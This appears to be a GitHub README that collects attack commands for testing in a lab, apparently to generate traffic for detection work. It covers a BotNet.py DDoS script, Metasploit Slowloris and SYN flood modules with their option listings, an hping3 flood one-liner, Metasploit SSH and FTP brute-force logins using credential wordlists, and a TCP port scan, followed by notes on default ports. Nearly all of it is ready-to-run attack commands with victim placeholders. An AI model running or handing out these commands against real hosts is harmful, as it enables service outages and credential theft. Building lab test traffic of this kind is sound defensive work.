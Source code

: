 ### ATTACK SCRIPT FOR TESTING

## DDoS & DoS Attacks and Bot Attacks

# BOTNET ATTACK Type DDoS

**Setup:**
1. Create a file in your VM Kali linux a python file
2. In BotNet.py in this project copy the file values
3. Paste it to the file you created in Kali Linux
4. Run it

**NOTE**
Make Sure that the configurations like IP ADDRESS is changed in the BOTNET Attack file

```shell
cd <PATH-FOLDER>
sudo python3 <FILE-NAME>
```

using Same Machine:

```shell
cd Test
py BotNet.py
```

# 1. Slowloris

Using Metasploit

```shell
msfconsole
msf6 > use auxiliary/dos/http/slowloris
msf6 auxiliary(dos/http/slowloris) > show options

Module options (auxiliary/dos/http/slowloris):

Name             Current Setting  Required  Description
----             ---------------  --------  -----------
delay            15               yes       The delay between sending ke
                                            ep-alive headers
rand_user_agent  true             yes       Randomizes user-agent with e
                                            ach request
rhost                             yes       The target address
rport            80               yes       The target port
sockets          150              yes       The number of sockets to use
                                                in the attack
ssl              false            yes       Negotiate SSL/TLS for outgoi
                                            ng connections


View the full module info with the info, or info -d command.

msf6 auxiliary(dos/http/slowloris) > set rhost <VICTIM IP>
rhost => <VICTIM IP>
msf6 auxiliary(dos/tcp/synflood) > set rport <SERVER RUNNING PORT>
rport => <SERVER RUNNING PORT>
msf6 auxiliary(dos/http/slowloris) > run
```

Using hping ( custom packet/attack gegenrator)

- `hping3 -S -p 80 --flood 192.168.1.2 <TARGET-IP>` 


# 2. Syn Flood
```shell
msfconsole
msf6 auxiliary(dos/http/slowloris) > use auxiliary/dos/tcp/synflood
msf6 auxiliary(dos/tcp/synflood) > show options

Module options (auxiliary/dos/tcp/synflood):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
INTERFACE                   no        The name of the interface
NUM                         no        Number of SYNs to send (else unlim
                                        ited)
RHOSTS                      yes       The target host(s), see https://do
                                        cs.metasploit.com/docs/using-metas
                                        ploit/basics/using-metasploit.html
RPORT      80               yes       The target port
SHOST                       no        The spoofable source address (else
                                        randomizes)
SNAPLEN    65535            yes       The number of bytes to capture
SPORT                       no        The source port (else randomizes)
TIMEOUT    500              yes       The number of seconds to wait for
                                                new data


View the full module info with the info, or info -d command.

msf6 auxiliary(dos/tcp/synflood) > set RHOSTS <VICTIM IP>
RHOSTS => <VICTIM IP>
msf6 auxiliary(dos/tcp/synflood) > run

```
# 3. 

## SSH Patator

# SSH BRUTE FORCE
## SSH Brute Force (Metasploit)

**Setup:**
1. In your Kali Linux (Attacker), create two files for brute-force credentials: one for usernames and one for passwords.
2. Open a root terminal.
3. Run the following commands using Metasploit:

```shell
msfconsole
use auxiliary/scanner/ssh/ssh_login
set USER_FILE /home/jonel/Desktop/bruteforcefiles/usernames.txt
set USERPASS_FILE /home/jonel/Desktop/bruteforcefiles/passwords.txt
set RHOSTS <VICTIM-IP>
run
```

---

## FTP Brute Force (Metasploit)

**Setup:**
1. In your Kali Linux (Attacker), create two files for brute-force credentials: one for usernames and one for passwords.
2. Open a root terminal.
3. Run the following commands using Metasploit:

```shell
msfconsole
use auxiliary/scanner/ftp/ftp_login
set USER_FILE /home/jonel/Desktop/bruteforcefiles/usernames.txt
set USERPASS_FILE /home/jonel/Desktop/bruteforcefiles/passwords.txt
set RHOSTS <VICTIM-IP>
run
```

## Port Scanning 

# TCP / SYN Port Scan

    Using Metasploit

```shell
    msfconsole
    msf6> use auxiliary/scanner/portscan/tcp
    msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS <VICTIM-IP>
    msf6 auxiliary(scanner/portscan/tcp) > run
``` 

# Why PORTS are fixed and shouldnt be change if necessary?

## FTP Brute Force
* The FTP protocol, as defined by the IANA (Internet Assigned Numbers Authority), uses port 21 by default for control commands. This is universally accepted and implemented in most systems.
* Attack requires HTTP header parsing, which happens on port 80

## SSH Brute Force
* SSH (Secure Shell) uses port 22 by IANA and is rarely changed.
* Changing SSH port is a rare hardening technique and not common in most systems.

## Syn Flood
* SYN flood are threshold-based per port.
* Port 80 is common for simplified simulation as it allows visible test setups using basic HTTP services.

## Slowloris
* Attack requires HTTP header parsing, which happens on port 80